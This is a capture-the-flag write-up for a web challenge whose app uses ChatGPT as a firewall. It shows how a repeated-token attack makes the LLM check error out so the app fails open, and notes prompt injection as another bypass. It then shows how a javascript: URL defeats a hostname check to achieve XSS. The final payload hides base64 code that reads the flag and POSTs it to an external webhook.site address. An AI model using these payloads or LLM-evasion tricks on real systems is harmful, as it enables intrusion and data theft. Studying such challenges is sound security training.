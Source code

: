 waifu
============

There are two WAFs that need to be bypassed in order to exploit an XSS vulnerability:

1. The ChatGPT WAF
2. The `(redirectUrl.hostname ?? '') !== new URL(defaultRedirect).hostname` check

# Bypassing the ChatGPT WAF

There are likely unintended solutions with prompt injection attacks to trick the response into being "all good". The intended solution was causing ChatGPT to raise an exception and not process the request. The application was designed to not use the ChatGPT WAF if an exception was raised.

`src/app/src/middleware/waifu.ts`
```ts
const waifuMiddleware = async (req: Request, res: Response, next: NextFunction) => {
    try {
        if (await analyseRequest(getRawRequest(req))) {
            sendError(res, 403, "oWo gotchya h4xor")
            return
        }
    } catch (e: any) {
        // Sometimes ChatGPT isn't working and it impacts our users :/
        // For now we just allow it through if ChatGPT is down
        console.log("something went wrong with my waifu 😭 probably it is down for some reason...")
    }
    next();
}
```

[Dropbox released some great research about repeated token attacks on LLMs](https://dropbox.tech/machine-learning/bye-bye-bye-evolution-of-repeated-token-attacks-on-chatgpt-models). The vulnerability was patched by OpenAI for ChatGPT by returning an "Invalid Request" response if a message contained too many repeating tokens. However, we could trigger this exception within our payload to cause a "Invalid Request".

Below was an example payload that would bypass the WAIFU by repeating the token `%61`.

```
/auth/?bypass=%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61&redirectTo=
```

# Bypassing the Hostname Check

The vulnerability was if an authenticated visited an `/auth/` page, they would be redirected using the `redirectTo` GET parameter. There was another validation check to try and prevent open redirect vuln.

```ts
const BROWSER_REDIRECT = `<html>
    <body>
        <script>
            window.location = "{REDIRECT}";
        </script>
    </body>
</html>`;

...

// Helpful at mitigating against other bots scanning for open redirect vulnerabilities
const sendBrowserRedirectResponse = (res: Response, redirectTo: string) => {
    const defaultRedirect = `${process.env.BASE_URL}/flag/`;
    if (typeof redirectTo !== "string") {
        redirectTo = defaultRedirect;
    }

    const redirectUrl = new URL(redirectTo as string, process.env.BASE_URL);
    // Prevent open redirect
    if ((redirectUrl.hostname ?? '') !== new URL(defaultRedirect).hostname) {
        redirectTo = defaultRedirect;
    }

    const encodedRedirect = encode(redirectTo);
    res.send(BROWSER_REDIRECT.replace("{REDIRECT}", encodedRedirect));
}
```

The `redirectTo` was parsed to a `URL` object and then the hostname was compared to the default one. There isn't any validations for protocols, so you could set the protocol to `javascript:`. To bypass the hostname check just set it to `javascript://waifu-app:3000/`, since when NodeJS constructs the URL object it will match the chars after `://` and before `/` as the hostname. Then we just inject in our javascript with a payload without quotes since the HTML encoding would break the syntax.

Below is an example solution:

```
/auth/?bypass=%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61%61&redirectTo=javascript://waifu-app:3000/%250aconst+urlParams+%3d+new+URLSearchParams(window.location.search)%3b%250aconst+exp+%3d+urlParams.get(0)%3b%250aeval(atob(exp))&0=ZmV0Y2goJy9mbGFnL2dldCcpLnRoZW4ociA9PiByLnRleHQoKSkudGhlbih0ZXh0ID0%2BIGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS80MDAxOWUzMS1hNGEyLTQxZDItOTRkZS0wZjM1ODA4MTdlNzcveHNzJyx7bWV0aG9kOidQT1NUJyxib2R5OnRleHR9KSk%3D
```